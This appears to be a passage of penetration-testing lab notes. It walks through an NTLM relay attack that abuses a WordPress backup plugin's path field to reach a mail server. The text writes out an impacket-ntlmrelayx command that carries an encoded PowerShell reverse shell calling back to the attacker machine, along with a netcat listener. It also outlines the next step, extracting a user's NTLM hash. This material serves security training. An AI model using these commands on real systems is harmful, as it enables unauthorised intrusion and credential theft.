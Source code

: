 		- Finally, we identified the Backup directory path field in the WordPress *Backup Migration* plugin containing the path for the backup destination. This may allow us to force such an authentication request.

Plan:
- Based on all of this information, let's define a plan for the second attack vector. First, we'll attempt to force an authentication request by abusing the *Backup directory path* of the Backup Migration WordPress plugin on INTERNALSRV1. By setting the destination path to our Kali machine, we can use **impacket-ntlmrelayx** to relay the incoming connection to MAILSRV1. If our assumptions are correct, the authentication request is made in the context of the local *Administrator* account on INTERNALSRV1, which has the same password as the local *Administrator* account on MAILSRV1.
- If this attack is successful, we'll obtain privileged code execution on MAILSRV1, which we can then leverage to extract the NTLM hash for beccy and therefore, meet one of the primary goals of the penetration test.

Start:
- Let's set up **impacket-ntlmrelayx** before we modify the *Backup directory path* in the WordPress plugin. We'll use **--no-http-server** and **-smb2support** to disable the HTTP server and enable SMB2 support. We'll specify the external address for MAILSRV1, 192.168.50.242, as target for the relay attack. By entering the external address, we don't have to proxy our relay attack via Proxychains. Finally, we'll base64-encode a *PowerShell reverse shell oneliner* that will connect back to our Kali machine on port 9999 and provide it as a command to **-c**.
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."`
- Set up a Netcat listener on port 9999 for the incoming reverse shell.
	- `nc -lvnp 9999`
- Now with everything set up, we can modify the Backup directory path.
	- Let's set the path to the *URI reference* **//192.168.119.5/test** in which the IP is the address of our Kali machine and **test** is a nonexistent path.
- Success:
	- Listing 73 confirms the assumptions we made earlier. First, INTERNALSRV1/ADMINISTRATOR was used to perform the authentication. Second, by successfully authenticating to MAILSRV1, we confirmed that both machines use the same password for the local Administrator account.
	- The output also states that the relayed command on MAILSRV1 got executed. Let's check our Netcat listener for an incoming reverse shell.
		- `whoami;hostname`
- We successfully obtained code execution as NT AUTHORITY\SYSTEM by authenticating as a local Administrator on MAILSRV1 by relaying an authentication attempt from the WordPress plugin on INTERNALSRV1.

# Gaining Access to the Domain Controller

### Cached Credentials

Scenario:
- As planned, we obtained privileged code execution on MAILSRV1. Our next step is to extract the password hash for the user beccy, which has an active session on this system.
- [Note]:
	- Depending on the objective of the penetration test, we should not skip the local enumeration of the MAILSRV1 system. This could reveal additional vulnerabilities and sensitive information, which we may miss if we directly attempt to extract the NTLM hash for beccy.
